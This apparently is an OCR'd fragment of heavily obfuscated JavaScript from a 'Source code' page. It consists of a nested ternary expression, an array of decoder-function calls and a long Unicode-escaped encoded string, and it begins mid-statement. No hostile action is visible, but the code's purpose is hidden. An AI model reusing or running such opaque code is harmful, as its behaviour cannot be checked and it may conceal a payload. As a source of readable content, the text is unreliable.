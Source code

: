 MD5gnX[LgINKyQ>0x1cd?LgINKyQ+0x3c:LgINKyQ>0x57?LgINKyQ>0x57?LgINKyQ>0x57?LgINKyQ<0x1cd?LgINKyQ-0x58:LgINKyQ+0x18:LgINKyQ-0x1c:LgINKyQ-0x1b:LgINKyQ+0x3]}LgINKyQ=[mLXCAdj(0x0),mLXCAdj(0x1),mLXCAdj(0x2),mLXCAdj(aX7O9J(-0xa)),mLXCAdj(aX7O9J(0x6c)),mLXCAdj(0x5),mLXCAdj(0x6),mLXCAdj(0x7),'\x44\x56\x21\x30\x48\x33\x7c\x42',mLXCAdj(aX7O9J(0x5)),mLXCAdj(FBWsBa(0x80)),'\u004b\u0045\u0046\u004b\u0077\u002e\u0042\u0054\u004b\u0037\u0025\u002b\u0035\u0077\u0030\u006a\u002c\u0021\u003c\u0046\u006a\u0032\u0023\u002a\u002c\u0025\u002a\u002f\u002f\u005b\u0050\u006e\u0057\u0069\u004a\u0032\u0046\u002e\u006f\u0030\u0044\u004a\u003f\u0046\u0052\u0045\u005e\u0069\u004a\u002c\u0021\u004a\u005f\u0060\u0056\u0042\u0030\u004a\u0035\u004f\u007b\u0042\u003c\u006d\u006d\u002c\u007a\u0031\u003e\u0077\u0072\u0058\u0063\u0052\u0065\u003c\u004e\u006c\u007d\u0063\u0051\u0055\u006d\u0063\u0037\u0069\u006e\u0023\u002c\u0048\u0032\u003c\u0061\u0079\u0056\u0062\u007b\u0069\u002b\u004a\u0054\u0021\u007d\u0059\u0065\u0056\u005a\u0021\u003b\u0062\u003b\u0061\u0062\u0069\u004b\u007a\u004e\u0066\u0048\u0031\u0023\u0053\u007e\u0028\u007d\u0077\u0032\u0064\u0039\u0021\u004e\u003c\u0062\u0076\u003e\u0021\u0070\u0025\u006c\u0021\u004a\u0038\u0078\u0050\u007c\u0063\u0058\u004a\u0046\u003f\u0037\u002a\u0057\u0055\u004e\u004e\u0063\u002c\u0026\u0059\u005f\u003c\u0073\u0066\u0021\u003d\u0021\u0059\u0079\u0023\u0063\u0025\u006d\u0042\u005a\u0063\u002f\u0047\u0076\u0063\u0048\u005b\u0042\u0064\u0063\u004f\u0071\u0044\u007d\u0037\u005e\u0069\u006c\u003c\u007a\u0067\u003e\u005b\u003b\u004e\u006d\u0054\u0044\u0033\u0044\u006d\u0053\u0063\u006d\u007a\u002a\u003a\u005a\u002c\u0078\u006a\u0021\u004c\u0029\u0053\u0040\u002c\u007c\u0051\u0031\u0035\u0074\u003c\u0053\u002c\u0078\u006a\u0021\u004c\u0029\u0053\u0035\u0038\u0060\u0051\u006b\u0038\u0057\u0078\u0052\u002c\u0078\u006a\u0021\u004c\u0029\u0053\u0035\u0038\u0060\u0051\u006b\u0038\u0028\u0061\u0050\u007d\u005b\u0048\u0044\u004a\u0061\u004b\u0077\u0062\u007a\u0056\u007a\u0029\u0074\u0045\u0064\u0076\u0066\u005b\u006f\u0021\u006d\u0021\u002a\u0045\u003d\u006f\u0071\u0061\u0037\u0067\u0033\u0070\u0069\u0065\u006e\u0024\u0021\u002f\u006b\u005e\u003b\u006d\u005f\u006b\u0075\u003c\u0076\u003b\u005f\u0069\u0048\u0030\u007e\u0075\u0058\u0043\u0048\u005a\u005b\u007a\u006b\u0061\u0057\u0035\u003d\u004e\u003b\u0037\u0037\u0078\u0030\u006a\u007b\u0062\u0054\u0064\u006e\u003c\u003d\u005b\u0076\u0058\u003b\u0052\u0056\u0036\u004b\u0039\u0059\u0063\u0070\u0072\u006a\u0067\u0070\u0040\u0052\u0031\u004c\u0030\u007e\u0075\u0058\u0043\u0048\u005a\u005b\u007a\u006c\u002c\u0046\u003c\u0022\u0040\u0051\u0053\u005d\u0034\u0028\u0075\u0063\u0072\u004b\u0045\u0044\u0067\u0067\u002c\u006c\u0064\u0063\u004f\u0071\u0044\u007d\u0037\u005e\u0069\u005f\u0049\u002f\u0032\u0044\u002e\u0023\u0070\u0036\u0055\u0045\u0076\u0065\u0078\u0038\u006a\u0070\u0044\u0056\u0045\u0049\u0069\u006a\u0031\u006b\u004b\u0039\u0030\u0069\u0039\u0057\u006f\u0054\u0042\u0030\u0066\u004d\u006b\u004e\u0070\u0049\u0055\u0058\u007b\u0024\u0050\u0033\u0070\u0022\u0034\u0063\u003a\u0050\u0072\u0066\u0048\u0054\u0038\u005b\u0028\u0068\u0046\u0056\u004f\u004d\u0055\u0048\u003c\u006b\u0034\u003a\u004d\u0074\u004f\u0061\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0056\u0066\u0042\u0072\u0058\u0023\u004d\u0025\u0023\u002f\u0038\u0062\u003c\u006d\u006d\u004f\u0050\u0030\u0028\u0075\u0022\u003a\u0070\u0052\u0048\u0033\u0044\u006d\u0053\u0063\u006d\u007a\u0057\u0048\u007b\u0063\u0045\u003a\u003a\u0048\u0044\u003f\u0071\u004e\u004c\u004f\u0067\u0075\u0030\u003a\u0061\u003e\u0051\u0049\u002b\u0048\u0062\u0052\u0041\u0062\u003a\u005a\u0071\u0061\u0054\u0079\u0078\u0029\u0075\u0043\u0055\u0036\u003c\u004c\u0055\u0076\u0038\u0065\u0067\u005d\u0076\u0065\u0053\u0066\u0048\u0070\u003b\u004f\u003c\u0053\u0059\u0062\u0034\u0056\u004f\u0075\u006f\u0032\u0049\u0077\u0073\u0053\u004b\u0048\u0044\u003f\u0066\u0043\u0073\u004f\u006e\u0066\u004e\u0066\u0070\u003b\u0031\u0058\u002c\u004b\u0067\u002a\u0046\u0038\u007d\u0051\u003e\u0029\u0079\u0044\u0071\u0067\u002c\u003f\u002e\u0021\u006b\u003c\u005f\u0076\u0052\u0062\u006c\u0061\u006a\u0079\u0039\u007b\u0055\u0049\u004b\u0055\u004d\u003c\u0022\u0078\u0065\u0059\u0065\u0072\u006c\u0079\u0021\u003f\u0043\u0065\u0073\u0049\u006f\u003f\u0044\u0036\u0034\u0063\u005f\u0047\u005e\u0064\u003c\u002a\u004b\u0040\u0038\u0056\u0039\u0030\u0069\u0039\u0057\u006f\u0054\u0042\u0030\u0066\u004d\u006b\u004e\u0070\u0049\u0055\u006e\u006d\u0024\u0050\u0033\u0070\u0022\u0034\u0063\u003a\u0071\u0071\u0047\u0075\u006c\u0032\u005b\u007d\u0023\u0050\u0033\u0070\u0022\u0034\u0063\u003a\u0071\u0071\u0047\u0075\u006c\u0032\u005b\u007d\u0023\u0050\u0033\u0070\u0022\u0034\u0063\u003a\u0071\u0071\u0047\u0075\u0046\u0032\u005e\u007d\u0023\u0050\u0033\u0070\u0022\u0034\u0063\u003a\u0075\u0065\u0047\u0075\u0073\u0052\u0068\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0026\u0049\u005f\u0068\u002b\u0065\u0042\u0032\u006a\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0028\u0031\u005f\u0068\u0076\u0054\u0025\u0032\u006a\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0026\u0049\u005f\u0068\u002b\u0065\u0042\u0032\u006a\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0026\u0049\u005f\u0068\u002b\u0065\u0042\u0032\u006a\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0056\u0066\u0040\u0068\u0076\u0054\u0040\u004a\u0068\u0030\u0049\u002c\u0068\u0058\u0074\u006c\u0057\u003c\u003f\u0068\u005b\u004e\u005a\u0033\u0071\u0059\u0024\u0062\u0035\u0064\u0061\u004a\u0022\u0044\u0077\u005f\u0033\u0058\u005a\u0033\u0071\u0059\u0024\u0062\u0035\u0064\u0061\u004a\u003a\u0044\u0077\u005f\u0041\u0053\u005a\u0033\u0071\u0059\u0024\u0062\u0035\u0064\u0061\u004a\u003a\u0044\u0077\u005f\u003c\u0069\u0057\u0033\u0071\u0059\u0024\u0062\u0035\u0064\u0061\u004a\u0022\u0044\u0077\u005f\u0064\u0035\u002f\u0021\u006b\u003c\u005f\u0076\u0052\u0062\u0038\u006c\u0056\u0045\u002e\u0069\u0055\u003a\u0044\u0057\u002a\u0028\u0077\u0051\u0073\u004f\u0078